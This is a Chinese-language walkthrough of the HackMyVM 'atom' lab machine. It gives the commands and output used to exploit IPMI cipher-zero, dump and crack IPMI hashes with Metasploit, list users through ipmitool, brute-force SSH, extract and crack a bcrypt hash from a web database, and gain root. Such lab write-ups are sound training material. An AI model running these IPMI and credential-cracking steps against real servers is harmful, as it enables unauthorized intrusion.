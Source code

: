 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_atom.md","permalink":"/安全/靶机/hackmyvm_atom/","title":"hackmyvm_atom","tags":["blog"]}
---
```


# 主机发现


![Pasted image 20250206121219.png](/img/user/picture/Pasted%20image%2020250206121219.png)
就开了一个22端口

![Pasted image 20250206121449.png](/img/user/picture/Pasted%20image%2020250206121449.png)


好像没什么信息，看一下UDP

![Pasted image 20250206122618.png](/img/user/picture/Pasted%20image%2020250206122618.png)


https://hacktricks.xsx.tw/network-services-pentesting/623-udp-ipmi
先看一下版本
```sh
nmap -sU --script ipmi-version -p 623 <ip>
```
![Pasted image 20250206123002.png](/img/user/picture/Pasted%20image%2020250206123002.png)

看一下漏洞是否可以利用
```sh
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/ipmi/ipmi_cipher_zero
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> show options

Module options (auxiliary/scanner/ipmi/ipmi_cipher_zero):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS                      yes       The target host(s), see https://docs.metasploi
                                         t.com/docs/using-metasploit/basics/using-metas
                                         ploit.html
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> set RHOST 192.168.124.26
RHOST => 192.168.124.26
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_cipher_zero) >> run
[*] Sending IPMI requests to 192.168.124.26->192.168.124.26 (1 hosts)
[+] 192.168.124.26:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```sh
ipmitool -I lanplus -C 0 -H <ip> -U root -P root user list # Lists users
```
但是我们缺少可用的用户名密码

![Pasted image 20250206154425.png](/img/user/picture/Pasted%20image%2020250206154425.png)

```sh
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> run
[+] 192.168.124.26:623 - IPMI - Hash found: admin:aae37ebd0212000032e2efc20addb57706955f8825ba6f4e2404b94bd04531ebb1045fd6a7081d27a123456789abcdefa123456789abcdef140561646d696e:f656e20c1ef210c796ec7f68a47d78077b3b3c33
[+] 192.168.124.26:623 - IPMI - Hash for user 'admin' matches password 'cukorborso'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

现在就有了用户名密码
```
admin cukorborso
```


```sh
ipmitool -I lanplus -C 0 -H 192.168.124.26 -U admin -P cukorborso user list 
```

![Pasted image 20250206154645.png](/img/user/picture/Pasted%20image%2020250206154645.png)

简单处理一下，形成用户字典

```sh
cat user_raw.txt | awk   '{print $2}' | grep -v "true" |  grep -v "Name" | tee -a user.txt
```


之后再根据这些用户名爆破出密码，在分别进行ssh登录，发现
`onida/jiggaman`
成功登录

![Pasted image 20250206165739.png](/img/user/picture/Pasted%20image%2020250206165739.png)

```txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

# 提权

//自己做也是没什么思路，看了大佬wp发现服务器上有web目录

```sh
onida@atom:/var/www/html$ ls
atom-2400-database.db  img        js         profile.php   video
css                    index.php  login.php  register.php
onida@atom:/var/www/html$ strings atom-2400-database.db
SQLite format 3
mtableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL
indexsqlite_autoindex_users_1users
tablelogin_attemptslogin_attempts
CREATE TABLE login_attempts (
    id INTEGER PRIMARY KEY,
    ip_address TEXT NOT NULL,
    attempt_time INTEGER NOT NULL
atom$2y$10$Z1K.4yVakZEY.Qsju3WZzukW/M3fI6BkSohYOiBQqG7pK1F2fH9Cm
        atom

```

哈希密码就在后面
```sh
┌──(root㉿kali)-[~/workspqce/pentest/atom]
└─# cat hash
$2y$10$Z1K.4yVakZEY.Qsju3WZzukW/M3fI6BkSohYOiBQqG7pK1F2fH9Cm

┌──(root㉿kali)-[~/workspqce/pentest/atom]
└─# john hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
madison          (?)
1g 0:00:00:03 DONE 2/3 (2025-02-06 04:09) 0.2732g/s 59.01p/s 59.01c/s 59.01C/s goodluck..stephen
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```


```sh
onida@atom:/var/www/html$ su -
Password:
root@atom:~# id
uid=0(root) gid=0(root) groups=0(root)
root@atom:~# cd /root
root@atom:~# ls
root.txt
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```






# 总结

别忘了UDP扫描










